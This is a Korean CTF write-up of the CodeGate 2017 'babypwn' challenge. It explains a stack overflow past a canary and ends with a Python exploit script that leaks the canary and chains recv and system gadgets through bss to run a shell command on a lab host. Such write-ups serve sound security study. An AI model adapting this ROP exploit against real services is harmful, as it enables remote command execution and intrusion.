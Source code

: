 # babypwn
### CodeGate 2017
***babypwn은 코드게이트 2017 예선에 출제된 문제입니다.***

babypwn을 처음 실행하면, 아래 그림과 같이 CodeGate!라는 말과 함께 3가지의 선택지가 나옵니다.

![Alt text](https://github.com/Funniest/System-study/blob/master/babypwn/img/Stack.PNG)

여기서 취약한 곳을 정리하여 보겠습니다. (위, 아래 그림 참조)

![Alt text](https://github.com/Funniest/System-study/blob/master/babypwn/img/Vuln.PNG)

sub esp, 50 -> 0x50만큼 버퍼 생성

[ebp+var_34] -> 입력 버퍼

[ebp+var_c] -> 더미(?)

Stack_check가 있는 것으로 보아 더미 중간에canary(4byte)가 존재

취약한 함수 = call sub_8048907

buf의 크기는 총 0x34(52) + SFP = (56)인데, 입력은 0x64(100)만큼 받습니다.

└ recv(fd, buf, 0x64, 0)

즉 오버플로우가 일어나게 됩니다.

이제 익스플로잇에 필요한 가젯들을 정리해 보면,
1. Canary 카나리
2. recv_plt, recv_got
3. ppppr
4. system_plt
5. ppppr
6. bss영역

이 필요합니다.

익스플로잇 순서는
1. canary를 leak합니다.
2. 익스플로잇에 필요한 가젯들을 구합니다.
3. 구한 가젯들을 조합해서 페이로드를 작성합니다.
 
 └ recv_plt를 이용하여 bss영역에 실행하고 싶은 명령어를 씁니다.
 
 └ system_plt에 bss영역을 인자를 주어 명령어를 실행합니다.

### 소스코드
Ubuntu 16 LTS 32bit 환경에서 테스팅 해보았습니다.

```
from socket import *
from struct import *
from time import *

p = lambda x: pack("<L", x)
up = lambda x : unpack("<L", x)[0]

def sendline(s, string) :
    s.send(string + '\n')

s = socket(AF_INET, SOCK_STREAM)
s.connect(('192.168.228.138', 8181))

print "[+]step01 get canary"
print s.recv(2048)

sendline(s, '1')
print s.recv(1024)

'''
#canary
payload = ''
payload += 'A' * 41 #buffer[40] + canary[1] <= 0x00
s.send(payload)

print s.recv(1024)
print s.recv(41)
canary = "\x00"
canary += s.recv(3)
canary = up(canary)

print "Canary : " + str(hex(canary))
'''

canary = 0x12e5ca00
send_plt = 0x8048700
send_got = 0x804B064
recv_plt = 0x80486E0
recv_got = 0x804B05C
bss = 0x804b1b4
ppppr = 0x8048eec
system_plt = 0x8048620

cmd = 'ls -al'

payload = ''
payload += 'A' * 40
payload += p(canary)
payload += 'B' * 12

payload += p(recv_plt)
payload += p(ppppr)
payload += p(0x04)
payload += p(bss)
payload += p(len(cmd))
payload += p(0x00)
payload += p(system_plt)
payload += p(0x41414141)
payload += p(bss)

s.send(payload)

print s.recv(1024)
sendline(s, '3')

sendline(s, cmd)
print s.recv(1024)
s.close()
```
